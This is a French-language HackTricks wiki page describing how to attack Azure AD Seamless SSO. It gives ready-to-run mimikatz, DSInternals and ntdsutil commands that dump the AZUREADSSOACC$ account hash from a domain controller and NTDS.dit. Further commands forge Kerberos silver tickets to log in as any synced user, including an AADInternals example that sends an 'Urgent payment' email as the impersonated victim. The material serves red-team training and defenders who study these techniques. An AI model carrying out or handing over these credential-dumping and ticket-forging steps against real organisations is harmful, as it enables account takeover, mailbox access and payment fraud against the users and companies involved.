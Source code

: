 # Az - Authentification unique transparente

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Expert en équipe rouge AWS de HackTricks)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-nous** sur **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts GitHub.

</details>

## Informations de base

[À partir de la documentation :](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Seamless Single Sign-On (Azure AD Seamless SSO) connecte automatiquement les **utilisateurs lorsqu'ils sont sur leurs appareils d'entreprise** connectés à votre réseau d'entreprise. Lorsqu'il est activé, **les utilisateurs n'ont pas besoin de taper leur mot de passe pour se connecter à Azure AD**, et généralement, même pas leur nom d'utilisateur. Cette fonctionnalité offre à vos utilisateurs un accès facile à vos applications basées sur le cloud sans avoir besoin de composants supplémentaires sur site.

<figure><img src="../../../../.gitbook/assets/image (7) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

Essentiellement, Azure AD Seamless SSO **connecte les utilisateurs** lorsqu'ils sont **sur un PC rejoint à un domaine sur site**.

Il est pris en charge à la fois par [**PHS (Synchronisation de hachage de mot de passe)**](phs-password-hash-sync.md) et [**PTA (Authentification de passage)**](pta-pass-through-authentication.md).

Le SSO de bureau utilise **Kerberos** pour l'authentification. Lorsqu'il est configuré, Azure AD Connect crée un **compte d'ordinateur appelé AZUREADSSOACC`$`** dans l'AD sur site. Le mot de passe du compte `AZUREADSSOACC$` est **envoyé en texte clair à Azure AD** lors de la configuration.

Les **tickets Kerberos** sont **chiffrés** en utilisant le **NTHash (MD4)** du mot de passe et Azure AD utilise le mot de passe envoyé pour décrypter les tickets.

**Azure AD** expose un **point de terminaison** (https://autologon.microsoftazuread-sso.com) qui accepte les **tickets Kerberos**. Le navigateur de la machine rejointe au domaine transmet les tickets à ce point de terminaison pour le SSO.

### Sur site -> cloud

Le **mot de passe** de l'utilisateur **`AZUREADSSOACC$` ne change jamais**. Par conséquent, un administrateur de domaine pourrait compromettre le **hachage de ce compte**, puis l'utiliser pour **créer des tickets silver** pour se connecter à Azure avec **n'importe quel utilisateur sur site synchronisé** :
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Avec le hash, vous pouvez maintenant **générer des tickets silver** :
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Pour utiliser le ticket argenté, les étapes suivantes doivent être exécutées :

1. **Initier le Navigateur :** Mozilla Firefox doit être lancé.
2. **Configurer le Navigateur :**
- Accéder à **`about:config`**.
- Définir la préférence pour [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) aux [valeurs](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically) spécifiées :
- `https://aadg.windows.net.nsatc.net`
- `https://autologon.microsoftazuread-sso.com`
3. **Accéder à l'Application Web :**
- Visiter une application web intégrée au domaine AAD de l'organisation. Un exemple courant est [Office 365](https://portal.office.com/).
4. **Processus d'Authentification :**
- À l'écran de connexion, le nom d'utilisateur doit être saisi, en laissant le champ du mot de passe vide.
- Pour continuer, appuyez sur TAB ou ENTREE.

{% hint style="success" %}
Cela ne contourne pas l'authentification multifacteur si elle est activée
{% endhint %}

#### ~~Création de tickets Kerberos pour les utilisateurs uniquement cloud~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Si les administrateurs de l'Active Directory ont accès à Azure AD Connect, ils peuvent **définir un SID pour tout utilisateur cloud**. De cette manière, des **tickets Kerberos** peuvent être **créés également pour les utilisateurs uniquement cloud**. La seule exigence est que le SID soit un SID approprié [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)).

{% hint style="danger" %}
Le changement du SID des utilisateurs administrateurs uniquement cloud est maintenant **bloqué par Microsoft**.\
Pour plus d'informations, consultez [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### On-prem -> Cloud via la Délégation Contraindre basée sur les Ressources <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Toute personne pouvant gérer les comptes d'ordinateur (`AZUREADSSOACC$`) dans le conteneur ou l'OU où se trouve ce compte peut **configurer une délégation contrainte basée sur les ressources sur le compte et y accéder**.

<figure><img src="../../../../.gitbook/assets/image (125).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

## Références

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: Je suis dans votre cloud, lisant les e-mails de tout le monde - piratage d'Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

<details>

<summary><strong>Apprenez le piratage AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres façons de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection exclusive de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Rejoignez** 💬 le [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
